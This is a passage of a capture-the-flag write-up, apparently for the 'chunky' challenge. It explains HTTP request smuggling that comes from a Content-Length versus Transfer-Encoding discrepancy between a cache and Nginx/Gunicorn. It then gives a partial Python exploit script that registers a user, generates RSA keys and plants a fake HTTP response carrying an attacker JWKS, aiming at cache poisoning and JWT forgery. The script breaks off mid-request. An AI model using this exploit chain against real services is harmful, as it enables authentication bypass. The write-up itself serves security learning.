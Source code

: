 To elaborate, the cache recognizes the end of the request body based solely on the Content-Length header, whereas Nginx and Gunicorn process the request body according to the Transfer-Encoding and disregard the Content-Length header, which leads to the rcache record two cache key **`GET /just_random_cache_key`** and **`/623d171c38-8aac-4463-84df-93973029c93c/.well-known/jwks.json`,** while nginx and gunicorn see the second request as the uri **`/post/63d71c38-8aac-4463-84df-93973029c93c/210bef4b-c993-4cb2-a7b9-1769ed3af21b`** different from what the rcache saw. Finally, this kind of discrepancy leads to HTTP request smuggling.

## Writeup 1

```bash
chunky without transfer-encoding chunked
cache poisoning by path traversal
GET /{user_id}/.well-known/jwks.json ../../../../{user_id}/{post_id}

import requests
import pwn
import os
import subprocess
import jwt
import random
import base64
import json

target = 'chunky.chals.sekai.team'

print('\n-----Register random user and login-----\n')

username = random.getrandbits(64)
print(f'Username: {username}')
password = random.getrandbits(64)
print(f'Password: {password}')

s = requests.session()
s.post(f'http://{target}:8080/signup', data = {
    'username': username,
    'password': password
})
s.post(f'http://{target}:8080/login', data = {
    'username': username,
    'password': password
})

print('\n-----Get user_id from session cookie-----\n')

user_id = json.loads(base64.b64decode(s.cookies['session'].split('.')[0] + '===').decode())['user_id']
print(f'user_id: {user_id}')

print('\n-----Generate JWT public and private key for JWKS-----\n')

# https://gist.github.com/ygotthilf/baa58da5c3dd1f69fae9

os.system("rm -f key key.pub && ssh-keygen -t rsa -b 4096 -m PEM -f key -q -N '' && openssl rsa -in key -pubout -outform PEM -out key.pub")
x5c = subprocess.check_output("sed '1d; $d;' ./key.pub | tr -d '\n'", shell=True).decode()

print('\n-----Create post with fake HTTP response containing our JWKS-----\n')

jwks_json = f'{{"keys":[{{"alg":"RS256","x5c":["{x5c}"]}}]}}'

r = s.post(f'http://{target}:8080/create_post', data = {
    'title': 'HTTP/1.1 200 OK' + '\r\n' + f'Content-Length: {len(jwks_json)}' + '\r\n\r\n' + jwks_json,
```